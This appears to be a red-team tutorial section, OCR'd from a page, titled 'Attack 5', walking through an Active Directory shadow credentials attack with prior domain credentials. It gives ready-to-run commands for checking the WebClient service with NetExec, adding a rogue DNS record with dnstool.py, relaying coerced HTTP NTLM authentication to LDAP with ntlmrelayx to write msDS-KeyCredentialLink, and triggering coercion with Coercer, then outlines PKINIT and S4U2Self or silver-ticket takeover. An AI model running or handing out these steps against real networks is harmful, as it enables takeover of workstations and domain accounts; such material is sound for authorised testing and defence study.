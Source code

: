 

# Attack 5: Shadow Credentials Attack Using Prior Credentials

This attack is very similar to the previous one with the major difference being that in this scenario, we’ve already compromised at least one domain user or computer credential. This opens up the opportunity for authentication coercion techniques such as PetitPotam,: https://github.com/topotam/PetitPotam  the Printer : https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py Bug, or other Microsoft protocol tricks such as those implemented in the Coercer tool : https://github.com/p0dalirius/Coercer. This has the effect of expanding our NTLM relaying attacks beyond just our local subnet, allowing us to target systems throughout the target environment.

To accomplish this, we’ll rely on abusing the WebClient Service to coerce HTTP authentication from Windows workstations. Note that Server versions of Windows do not have this service installed by default; however, workstation versions such as Windows 10 and 11 do have the service installed.

Here is a high-level overview of how this attack works:

We find a host that has the WebClient service running. This means that we can abuse the service to coerce NTLM authentication from that computer account over the HTTP protocol and relay it to the LDAP service on the domain controller (as opposed to SMB authentication, which cannot be relayed to LDAP).
After the successful relay to LDAP, we will update that computer account’s msDS-KeyCredentialLink attribute with our own DeviceID and public key, saving the private key and certificate file to disk in the process.
Lastly, we can use PKINIT authentication to obtain a TGT for the relayed computer account and use either S4U2Self or a silver ticket to compromise that system.
First, we’ll use the NetExec “webdav” module along with our previously compromised credentials to check if a target system has the WebClient service enabled.

    nxc smb 10.2.10.21 -d babysteps.domain -u domainuser -p 'password' -M webdav


    
Next, we’ll add a DNS record to the domain which points to our attacking Linux system. For this step, I recommend using dnstool.py : https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py from the krbrelayx repo. This DNS record is necessary for the target system to consider our box as belonging to the “Intranet Zone”, which will result in the system sending its NTLM credentials in response to the WebClient authentication coercion attack. If we try the authentication coercion using our IP address instead, we won’t receive any credentials.

    python3 dnstool.py -u 'babysteps.domain\domainuser' -p 'password' -a add -r  attacker -d 10.2.10.1 10.2.10.11 
    
    
Next, we’ll use ntlmrelayx with the appropriate flags related to the shadow credentials attack    


    ntlmrelayx.py -t ldap://10.2.10.11 --shadow-credentials --shadow-target 'LA-WIN11-22H2-1$' --no-validate-privs --no-dump --no-da
    
Then, use Coercer to trigger the HTTP authentication attempt.

    python3 ./Coercer.py coerce --auth-type http -l attacker -t 10.2.10.21 -d babysteps.domain -u domainuser -p 'password' --filter-protocol-name MS-EFS

